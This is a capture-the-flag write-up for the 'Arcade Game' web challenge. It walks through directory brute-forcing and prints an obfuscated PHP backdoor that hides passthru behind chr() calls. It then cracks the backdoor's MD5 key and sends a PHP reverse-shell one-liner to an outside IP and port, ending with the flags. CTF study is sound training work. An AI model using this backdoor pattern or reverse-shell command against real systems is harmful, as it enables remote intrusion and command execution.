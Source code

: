 # Challenge Name: Arcade Game


![date](https://img.shields.io/badge/date-17.04.2022-brightgreen.svg)  
![solved in time of CTF](https://img.shields.io/badge/solved-in%20time%20of%20CTF-brightgreen.svg)   
![category](https://img.shields.io/badge/category-WEB-blueviolet.svg)   
![value](https://img.shields.io/badge/value-150-blue.svg)  


## Description

A group of hackers succeeded to own our lovely arcade machine, till now we have no idea how or when but we are sure that they will come back, due to our analysis we think there's a backdoor, try to find it for us and read the flag.

[https://thnbdarija-arcade.chals.io/](https://thnbdarija-arcade.chals.io/)

_Author : EddieMora_


## Detailed solution  

Start by checking the website 

![image](https://user-images.githubusercontent.com/72421091/163740676-92c18d66-4575-4fbf-b341-cde1bbf0c4f7.png)

Source page has nothing intersting

Let's check for known files and do some directory bruteforcing 

```bash
┌──(kali㉿kali)-[~]
└─$ gobuster dir -w /usr/share/dirb/wordlists/big.txt -t 20 -u https://thnbdarija-arcade.chals.io/ -e php,txt,js
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     https://thnbdarija-arcade.chals.io/
[+] Method:                  GET
[+] Threads:                 20
[+] Wordlist:                /usr/share/dirb/wordlists/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Expanded:                true
[+] Timeout:                 10s
===============================================================
2022/04/17 04:55:49 Starting gobuster in directory enumeration mode
===============================================================
https://thnbdarija-arcade.chals.io/.htpasswd            (Status: 403) [Size: 291]
https://thnbdarija-arcade.chals.io/.htaccess            (Status: 403) [Size: 291]
https://thnbdarija-arcade.chals.io/README               (Status: 200) [Size: 377]
https://thnbdarija-arcade.chals.io/css                  (Status: 301) [Size: 338][--> http://thnbdarija-arcade.chals.io/css/]
https://thnbdarija-arcade.chals.io/img                  (Status: 301) [Size: 338][--> http://thnbdarija-arcade.chals.io/img/]
https://thnbdarija-arcade.chals.io/js                   (Status: 301) [Size: 337][--> http://thnbdarija-arcade.chals.io/js/]
https://thnbdarija-arcade.chals.io/robots.txt           (Status: 200) [Size: 485]             
https://thnbdarija-arcade.chals.io/server-status        (Status: 403) [Size: 291]             
                                                                                                                                   
===============================================================
2022/04/17 04:58:26 Finished
===============================================================

```

- https://thnbdarija-arcade.chals.io/robots.txt the only accesible files are /README and /hint.txt
```
User-agent: Applebot
Disallow: /ajax/
Disallow: /album.php
Disallow: /checkpoint/
Disallow: /contact_importer/
Disallow: /dialog/
Disallow: /fbml/ajax/dialog/
Disallow: /feeds/
Disallow: /file_download.php
Disallow: /job_application/
Disallow: /l.php
Disallow: /moments_app/
Disallow: /p.php
Disallow: /photo.php
Disallow: /photos.php
Disallow: /plugins/
Disallow: /share.php
Disallow: /share/
Disallow: /sharer.php
Disallow: /sharer/
Disallow: /tr/
Disallow: /tr?
Disallow: /hint.txt
```

- https://thnbdarija-arcade.chals.io/README it shows the source code for a backdoor 

```php
<?php
$X = chr(0x73);
$R = chr(0x72);
$F = chr(0x75);

$cGFzc3dvcmQ = "b02dc9b178659a6ea480d72c94713469"; //password123@!
$owner = "logic";

//flag{try_h4rd3r_1337}

$B = chr(0x61);
$E = chr(0x68);
$D = chr(0x74);
$A = chr(0x70);

$hook = $A.$B.$X.$X.$D.$E.$R.$F;

if($cGFzc3dvcmQ === md5($_GET['key']) && $owner === $_GET['hint'])
{
  $hook($_GET['zip']);
}
else
{
  die();
}
```
### Analysing the source code 

- $hook is the `passthru` function 
- we need to find the original string for this md5 hash "b02dc9b178659a6ea480d72c94713469"
- To execute a command using the backdoor we need to send /?key=S&hint=logic&zip=command

Now we need to find the key. we have the file hint.txt that has some passwords

```
["password", 123456, 12345678, 1234, "qwerty", 12345, "dragon", "pussy", "baseball", "football", "letmein", "monkey", 696969, "abc123", "mustang", "michael", "shadow", "master", "jennifer", 111111, 2000, "jordan", "superman", "harley", 1234567, "fuckme", "hunter", "fuckyou", "trustno1", "ranger", "buster", "thomas", "tigger", "robert", "soccer", "fuck", "batman", "test", "pass", "killer", "hockey", "george", "charlie", "andrew", "michelle", "love", "sunshine", "jessica", "asshole", 6969, "pepper", "daniel", "access", 123456789, 654321, "joshua", "maggie", "starwars", "silver", "william", "dallas", "3waba1337@!", 123123, "ashley", 666666, "hello", "amanda", "orange", "biteme", "freedom", "computer", "sexy", "thunder", "nicole", "ginger", "heather", "hammer", "summer", "corvette", "taylor", "fucker", "austin", 1111]
```

After trying the md5 of those passwords i found the one needed

MD5(3waba1337@!) = b02dc9b178659a6ea480d72c94713469

Now the backdoor command is /?key=3waba1337@!&hint=logic&zip=command

Now we need to find the backdoor location, i changed to the diresearch default wordlist and retry bruteforcing

I found the backdoor /admin.php 

Now let's send the full command. I used the php reverse shell (bash didn't work) 

```
php -r '$sock=fsockopen("18.158.249.75",19145);exec("bash <&3 >&3 2>&3");'
```

```
https://thnbdarija-arcade.chals.io/admin.php?key=3waba1337%40%21&hint=logic&zip=php%20-r%20%27%24sock%3Dfsockopen%28%2218.158.249.75%22%2C19145%29%3Bexec%28%22bash%20%3C%263%20%3E%263%202%3E%263%22%29%3B%27
```

I got th reverse shell 

![image](https://user-images.githubusercontent.com/72421091/163742024-53625e1e-2c55-4cdd-be54-036e2ea8ffdf.png)

The box dosent have python so i used script to stablize the shell `/usr/bin/script -qc /bin/bash /dev/null`

Checking the home directory, i found a user called ctf with a file .flag inside his home directory 

![image](https://user-images.githubusercontent.com/72421091/163742333-7341fdd8-cb35-449a-9609-135fe4942ea1.png)

### Flag

```
thnb{Th4nkS_f0r_s4v1ng_Th3_4rC4d3_M4ch1n3}
```
